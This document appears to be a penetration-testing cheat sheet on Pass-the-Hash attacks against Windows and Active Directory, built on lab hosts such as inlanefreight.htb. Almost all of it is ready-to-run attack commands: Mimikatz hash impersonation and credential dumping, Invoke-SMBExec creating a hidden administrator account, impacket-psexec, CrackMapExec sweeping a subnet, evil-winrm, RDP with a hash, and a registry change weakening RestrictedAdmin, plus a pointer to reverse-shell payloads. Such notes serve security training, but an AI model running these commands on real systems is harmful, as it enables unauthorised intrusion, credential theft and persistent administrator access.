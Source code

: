 ```yaml
---
description: >-
  Is a technique where an attacker uses a password hash instead of the plain
  text password
---
```


# Pass the Hash (PtH)

the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

* Dumping the local SAM database from a compromised host.
* Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
* Pulling the hashes from memory (lsass.exe).

### Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

* `/user` - The user name we want to impersonate.
* `/rc4` or `/NTLM` - NTLM hash of the user's password.
* `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> Note that: Mimikatz is one of the most useful tools that we will be using in the future for active directory boxes. Some additional points to be noted about Mimikatz.
>
> 1. You can run it with just mimikatz.exe and then slowly specify other commands.
> 2. To extract the hashes presented in the current session, instead of running `sekurlsa::pth` we can run `sekurlsa::logonpasswords` additional information could be found in the [`HackTricks`](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz) website

### Invoke-TheHash(PS)

To download the tools, access [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) github.

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

<pre class="language-powershell-session"><code class="lang-powershell-session"><strong>Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add &#x26;&#x26; net localgroup administrators mark /add" -Verbose
</strong></code></pre>

* `Target` - Hostname or IP address of the target.
* `Username` - Username to use for authentication.
* `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
* `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
* `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

> we can use reverse shell payload in the Command section of the code (`PowerShell #3 (Base64)`) and for the target we can specify machine name instead of IP address (either would work).

### Impacket

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Following tools also works with PtH:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### CrackMapExec

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### evil-winrm

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

### RDP

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

> for this method to work we have to set the value for `DisableRestrictedAdmin` as 0.
>
> To enable run:
>
> ```cmd-session
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
> ```
>
> &#x20;Otherwise we will get the following error.
>
> <img src="../../../.gitbook/assets/image (12) (1).png" alt="" data-size="original">



